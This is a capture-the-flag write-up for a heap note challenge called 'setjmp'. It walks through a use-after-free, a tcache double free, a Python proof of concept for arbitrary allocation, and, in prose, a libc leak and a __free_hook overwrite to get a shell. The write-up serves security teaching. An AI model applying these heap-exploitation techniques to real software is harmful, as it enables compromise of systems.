 # setjmp

## tl;dr

Just a heap 101 practice! Use heap fengshui to leak libc and overwrite `__free_hook` to get shell.

(Which is unintended)

## Solution

A heap note challenge with setjmp and longjmp. But the UAF is trivial.

First, we can start by leaking the heap base. We can free the "root" chunk at the beginning, and even though it is freed, we can still show it. So by showing the user, we can leak the heap base.

This challenge still has a clear UAF (Use-After-Free) vulnerability. Freeing a user will go into the tcache and we can also modify the key field of the tcache chunk. So here, we can free a user, modify the key field of the tcache chunk, and then free it again to cause tcache double free. This will give us an arbitrary allocation primitive.

Here is a POC (Proof of Concept) for arbitrary allocation: (allocating a chunk at 0xDEADBEEF)

```python
def add_user(username,password):
    sla("> ","2")
    sa("> ",username)
    sa("> ",password)
def free_user(username):
    sla("> ","3")
    sa("> ",username)
def change_pass(username,password):
    sla("> ","4")
    sa("> ",username)
    sa("> ",password)
def show_user():
    sla("> ","5")

free_user("root")
show_user()
add_user("aaa","bbb")
add_user("ccc","ddd")
free_user("aaa")
free_user("ccc")
sla("> ","1")
free_user("root")
show_user()
new_user = r.recv(6)
change_pass(new_user,"fake2")
free_user(new_user)
add_user(p64(0xDEADBEEF),p64(0))
add_user("eee","fff")
```

Afterwards, we can allocate and modify the size of other user chunk headers, causing the user to be placed in the unsorted bin when freed. It is important to arrange the heap properly because the `prev_inuse` bit of the next chunk is checked when attempting to free into the unsorted bin.

```python
if (__glibc_unlikely (!prev_inuse(nextchunk))) // here
      malloc_printerr ("double free or corruption (!prev)");
```

After that we have libc leak and we can use the same method to overwrite `__free_hook` to get shell.

## Exploit Script

See here: [https://github.com/pwn2ooown/CTF-Writeups-Public/blob/main/2024_HITCON_CTF_Qual/setjmp/exp.py](https://github.com/pwn2ooown/CTF-Writeups-Public/blob/main/2024_HITCON_CTF_Qual/setjmp/exp.py)
